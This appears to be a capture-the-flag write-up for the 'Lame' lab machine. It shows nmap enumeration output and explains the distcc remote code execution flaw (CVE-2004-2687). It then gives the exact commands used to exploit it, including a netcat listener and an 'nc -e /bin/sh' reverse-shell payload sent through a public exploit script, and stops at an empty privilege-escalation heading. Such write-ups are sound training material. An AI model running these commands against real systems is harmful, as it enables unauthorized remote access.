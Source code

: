 # Enumeration
```bash
Nmap scan report for 10.10.10.3
Host is up (0.023s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.24
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h39m11s, deviation: 0s, median: 4h39m11s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name:
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-02-28T06:59:11-05:00
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.02 seconds
```

## Initial Shell
I could see that also port 3632 was vulnerable: </br>
![distccd_vuln_1](images/lame/distccd_vuln_1.png) </br>
![distccd_vuln_2](images/lame/distccd_vuln_2.png) </br>
Vulnerabilities nmap script: ```nmap -sS -p3632 -Pn 10.10.10.3 -v --script vuln``` </br> </br>
**Distcc:** </br>
distcc is designed to speed up compilation by taking advantage of unused processing power on other computers.
A machine with distcc installed can send code to be compiled across the network to a computer which has the distccd daemon and a compatible compiler installed. </br>
**Exploit CVE 2004-2687:** </br>
distcc 2.x, as used in XCode 1.5 and others, when not configured to restrict access to the server port, 
allows remote attackers to execute arbitrary commands via compilation jobs, which are executed by the server without authorization checks. </br>
I used DistCC Daemon RCE Exploit from [GitHub](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855) </br>
And it worked: </br>
![distcc_exploit_works](images/lame/distcc_exploit_works.png) </br>
To get a reverse shell I first started a netcat listenenr on another terminal with```nc -nlvp 1234``` </br> 
And specified this in the -c argument: ```python2 distcc_exploit.py -t 10.10.10.3 -p 3632 -c 'nc -e /bin/sh 10.10.14.27 1234'``` </br>

# Privilege Escalation

